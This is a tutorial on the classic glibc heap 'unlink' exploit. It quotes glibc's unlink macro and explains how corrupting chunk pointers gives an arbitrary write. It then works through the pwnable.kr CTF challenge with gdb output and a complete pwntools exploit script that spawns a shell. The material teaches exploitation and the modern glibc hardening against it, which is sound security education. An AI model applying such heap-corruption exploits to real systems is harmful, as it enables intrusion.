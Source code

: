 # Unlink Exploit

The unlink exploit was first described in  [Phrack \#57](http://www.phrack.org/issues/57/8.html#article).  Whilst it was probably the most effective method of exploiting the heap during it's heyday, the updates made add a couple of protections which neuter it's effectiveness in modern systems.

In the unlink exploit, the goal is to exploit the following macro:

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");                              \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr ("corrupted double-linked list");                              \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {                                      \
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

The unlink macro removes a chunk from a bin which stores chunks as a double linked-list.  The macro in effect takes the pointers to FD and BK, and modifies the adjacent chunks to effectively remove itself from this double-linked list.  This ocurrs via the following:  

```c
FD = P->fd;                                                                      \
BK = P->bk;
FD->bk = BK;                                                              \
BK->fd = FD;
```

If we control P, we control FD and BK, which gives us an arbitrary write onto the memory.

#### Consolidate Backwards

glibc likes to keep the heap tidy, so if two adjacent chunks in memory are both free, why not merge them?  This action happens through the previous inuse bit set within a chunk.  If a chunk has it's previous inuse bit set, then it will consolidate them through the following action.

```c
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

```c
    /* consolidate backward */
    // Is the previous chunk free?
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
       // add previous chunk size to current size
      size += prevsize;
       // move data pointer back to merge both chunks
       // i.e. change chunk pointer to point to current chunk
      p = chunk_at_offset(p, -((long) prevsize));
      // unlink from from the bin
      
      unlink(av, p, bck, fwd);
    }
```

This chunk is then placed within the unsorted chunk list, as it is given a chance to be re-allocated before being placed in a regular bin, but that's not as important to the crux of the exploit.  

## Example 1: pwnable.kr

I'll walk through an example from pwnable.kr which will allow us to demonstrate the unlink exploit.  This implements a custom unlink method.  Since this doesn't contain the hardening done by glibc, it makes it much easier to show how this was done originally. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

We have the stack and heap addresses, so ASLR is no longer an issue.  In this the data being passed into A is not bounds checked, so we need to write a fake chunk into A, and overwrite the fd and bk pointers in B.  

```text
(gdb) r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffb07fe4
here is heap address leak: 0x91ae410
now that you have leaks, get shell!
```

```text
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484eb <shell>
```

The following shows the layout of each malloc within memory.

```text
(gdb) x/6x 0x91ae410   <==== A
0x91ae410:	0x091ae428	0x00000000	0x00000000	0x00000000
0x91ae420:	0x00000000	0x00000019
(gdb) x/6x 0x91ae410+4*6 <====== B
0x91ae428:	0x091ae440	0x091ae410	0x00000000	0x00000000
0x91ae438:	0x00000000	0x00000019
```

Since the function exits from main exits immediately after we're going to want to overwrite eip, which we can calculate from the stack leak.

```text
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```



```text
FD->bk=BK;
BK->fd=FD;
```

So we need to write to fill the current allocation plus 4 bytes which will be the address of EBP-4.

```python
from pwn import *
s=ssh(host='pwnable.kr' ,port=2222,  user='unlink', password='guest')

r = s.process('./unlink')
r.recvuntil(' stack address leak: ')
stack = r.recvline()
r.recvuntil(' heap address leak: ')
heap = r.recvline()

print stack
print heap

ebp = int(stack, 0) - 0x20
heap = int(heap,0)
shell = 0x80484eb

payload = p32(shell)
payload += p32(heap+12)
payload += p32(0x19)
payload += p32(0x19)
payload += p32(ebp) #fd
payload += p32(heap+16) #bk

r.sendafter(' get shell!', payload)
r.interactive()
```

## Modern Hardening Measures

These protections can be bypassed but only in very specific circumstances, so it's very difficult to give a list of bypasses.  In effect, you need to ensure that you can write memory in such a way that these checks are bypassed, as effectively they are just two integer comparisons.

### corrupted\_size vs prev\_size

The following code checks the integrity of the chunk:

```c
chunksize(P) != prev_size (next_chunk(P))
```

This is not a major issue in the case of forging chunks, but if given a single null-byte overwrite it can interfere with any attempts to create an unlink-exploit.

### corrupted double-linked list

```c
FD->bk != P || BK->fd != P
```

A basic integrity check to ensure that the double-linked list structure is intact.  This again means you can't perform an arbitrary write-what, where.





